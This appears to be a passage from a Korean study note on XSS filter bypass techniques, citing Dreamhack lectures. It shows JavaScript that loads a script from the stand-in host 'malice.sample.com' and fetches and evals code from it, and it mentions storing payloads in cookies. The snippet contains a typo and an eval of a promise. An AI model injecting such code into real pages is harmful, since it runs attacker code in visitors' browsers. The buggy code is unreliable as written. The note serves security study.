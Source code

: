         // [2] HTML 요소를 생성한 후 이를 추가하여 실행함
        var e = document.createElemet('script'); // document.createElement() 메서드를 통해 tagName('script')로 지정된 HTML 요소를 반환함
        e.src = 'http://malice.sample.com'; // src 속성에 로드할 외부 자원의 주소를 입력함
        document.appendChild(e); // appendChild() 메소드를 통해 HTML 요소를 document의 끝에 추가함

        // [3] 트워크에서 리소스를 가져오는 프로세스를 시작하고 Response 객체(promise)를 받아오는 fetch() 메소드를 통해 외부 자원으로 요청을 보내고 then() 메소드를 통해 실행할 동작을 정의함 
        fetch('http://malice.sample.com').then(x=>eval(x.text()));
        ```
    - [우회 방법 3] 쿠키에 페이로드를 저장하여 공격하는 방법


<br/><br/><br/><br/>

### 🔖 출처
* [드림핵 Web Hacking Advanced - Client Side] 📌 [Exploit Tech: XSS Filtering Bypass - 1](https://dreamhack.io/lecture/courses/318)
* [드림핵 Web Hacking Advanced - Client Side] 📌 [Exploit Tech: XSS Filtering Bypass - 2](https://dreamhack.io/lecture/courses/320)
